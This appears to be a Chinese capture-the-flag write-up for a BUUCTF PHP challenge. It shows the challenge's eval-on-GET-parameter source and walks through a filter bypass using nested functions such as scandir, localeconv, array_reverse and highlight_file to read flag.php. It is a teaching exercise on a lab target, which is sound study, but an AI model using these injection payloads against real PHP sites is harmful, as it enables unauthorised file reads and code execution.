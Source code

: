 ### PHP 函数嵌套绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b17838d0e0a243d4ffc336.jpg)

打开网页啥也不是

![](https://pic1.imgdb.cn/item/67b17848d0e0a243d4ffc337.jpg)

扫描后台发现 git 泄露

![](https://pic1.imgdb.cn/item/67b1785bd0e0a243d4ffc339.jpg)

使用 GitHack.py 下载文件

![](https://pic1.imgdb.cn/item/67b17873d0e0a243d4ffc33c.jpg)

拿到源码一顿分析，首先是过滤了伪协议，第二是匹配以字母或下划线开头的函数调用

(?R) 是递归模式，用于匹配嵌套函数调用，最后过滤了一些关键字

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

需要了解几个函数

scandir() 返回指定目录中的文件和目录的数组

localeconv() 函数返回一个包含本地数字及货币格式信息的数组，相当于 ls

current() 返回数组中当前元素的值（也可以替换为 pos()）

最后 print_r 打印出来发现 flag.php

```
print_r(scandir(current(localeconv())));
```

![](https://pic1.imgdb.cn/item/67b178f0d0e0a243d4ffc347.jpg)

当然也可以直接

```php
var_dump(scandir('.'));
```

![](https://pic1.imgdb.cn/item/683961f558cb8da5c81d3019.png)

接下来先先使用 array_reverse() 反转，再接上 next() 跳到第二个即 flag.php

最后外面套一个高亮显示拿到 flag

```php
?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

![](https://pic1.imgdb.cn/item/67b17919d0e0a243d4ffc34d.jpg)

或者

```php
var_dump(file_get_contents('./f1ag.php'));
```

